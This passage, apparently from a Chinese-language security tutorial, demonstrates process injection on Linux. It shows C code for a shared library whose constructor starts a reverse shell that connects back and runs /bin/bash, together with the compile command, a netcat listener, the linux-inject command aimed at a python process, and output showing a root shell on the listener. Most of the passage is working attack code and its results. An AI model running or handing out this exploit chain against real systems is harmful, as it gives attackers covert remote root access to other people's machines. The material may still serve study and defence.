 ```c
        return NULL;
    }
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    execl(shell,"/bin/bash",(char *)0);
    close(sock);
  printf("I just got loaded\n");
    return NULL;
}

__attribute__((constructor))
void loadMsg()
{
    pthread_t thread_id;
    pthread_create(&thread_id,NULL,hello,NULL);
}
```

**编译：**

```bash
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o poc.so -lpthread -fPIC poc.c
```

**启一个python进程作为注入目标：**

```bash
python3 -m http.server 123
```

**攻击机启动监听：**

```bash
nc -lvvp 4444
```

**注入进程：**

```bash
➜  ps -ef | grep 123 | grep -v grep
root       1694   1299  0 12:08 pts/1    00:00:00 python3 -m http.server 123
➜  ./linux-inject/inject -p 1694 ./poc.so
targeting process with pid 1694
ptrace(PTRACE_GETSIGINFO) failed
```

**结果：**

```bash
root@vuln:~# exit
NCAT DEBUG: Closing fd 5.
[root@master ~]# nc -lvvp 4444
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.16.42.151.
Ncat: Connection from 172.16.42.151:39410.
id
uid=0(root) gid=0(root) 组=0(root)
```
